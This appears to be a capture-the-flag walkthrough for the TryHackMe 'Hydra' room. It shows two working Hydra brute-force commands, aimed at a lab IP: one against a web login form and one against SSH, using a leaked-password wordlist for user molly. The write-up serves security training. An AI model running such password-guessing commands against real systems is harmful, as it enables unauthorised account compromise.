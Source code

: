 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

## **Walkthrough**

**Use Hydra to brute force molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V
```
